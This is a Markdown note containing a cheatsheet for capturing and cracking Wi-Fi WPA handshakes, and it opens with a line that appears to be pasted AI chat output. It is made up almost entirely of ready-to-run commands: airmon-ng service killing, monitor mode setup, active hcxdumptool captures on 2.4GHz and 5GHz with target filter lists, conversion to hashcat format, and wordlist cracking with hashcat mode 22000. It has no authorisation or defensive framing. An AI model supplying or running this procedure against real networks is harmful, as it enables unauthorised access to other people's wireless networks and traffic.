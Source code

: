 ```yaml
---
sticker: lucide//network
---
```

You're right, my mistake. Here is the Markdown with the titles unboxed and the commands in code blocks:

# Wi-Fi Handshake Capture & Crack Cheatsheet 📡

## Preliminary Commands & Information Retrieval

**Secure Copy from Remote Device** (WiFi Pineapple)

```
scp -r root@172.16.42.1:/root/example.pcapng /home/username/Desktop
```

📖 Downloads files from remote devices using SCP.

**Check Wireless Interfaces** 

```
iwconfig
```

📖 Displays wireless network interface details.

**Kill Interfering Services**

```  
airmon-ng check kill
```

📖 Stops services that might interfere with wireless tools.

## Capture & Conversion Phase

**Set Wireless Card to Monitor Mode**

```
sudo ip link set wlan0 down  
sudo iw wlan0 set monitor control
sudo ip link set wlan0 up
```

📖 Prepares the wireless card for capture.

**Capture Handshakes with hcxdumptool** 

```
hcxdumptool -i wlan1 -o dumpfile.pcapng --active_beacon --enable_status=15
```

📖 Captures packets from networks.

**Convert Captured File for Hashcat**

```
hcxpcapngtool -o hash.hc22000 -E essidlist dumpfile.pcapng
``` 

📖 Converts packets for password cracking.

## Additional Scans & Information

**Scan for Nearby Networks**

```
hcxdumptool --do_rcascan -i wlan1 
```

📖 Scans and displays nearby networks.

## Cracking Phase 

**Crack with Hashcat**

```
hashcat -m 22000 hash.hc22000 wordlist.txt
```

📖 Uses hashcat to attempt password cracks.

## 5GHz Network Capturing Cheat Sheet

1. **Install Necessary Tools**

   ```
   sudo apt-get install hcxdumptool hcxtools
   ```

2. **Check for 5GHz Support**

   ```
   iw list
   ```

3. **Enable Monitor Mode**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo ip link set wlan0 up
   ```

4. **Set to 5GHz Channel**

   ```
   sudo iw dev wlan0 set channel 36
   ```

5. **Identify Target Networks**

   ```
   sudo hcxdumptool -i wlan0 --scan
   ```

6. **Capture Traffic**

   ```
   sudo hcxdumptool -i wlan0 --enable_status=1 -o output.pcapng --filterlist=filterlist.txt --filtermode=2
   ```

7. **Analyze Captured Traffic**

   ```
   hcxpcaptool -z output.hccapx output.pcapng
   ```

8. **Troubleshooting**

   ```
   sudo iw reg get
   sudo iw reg set US
   ```

9. **Switch Back to 2.4GHz**

   ```
   sudo ip link set wlan0 down
   sudo iw dev wlan0 set type monitor
   sudo iw dev wlan0 set channel 6
   sudo ip link set wlan0 up
   ```

10. **List 2.4GHz Channels**

    ```
    iw phy phy0 channels
    iwlist wlan0 channel
    ```
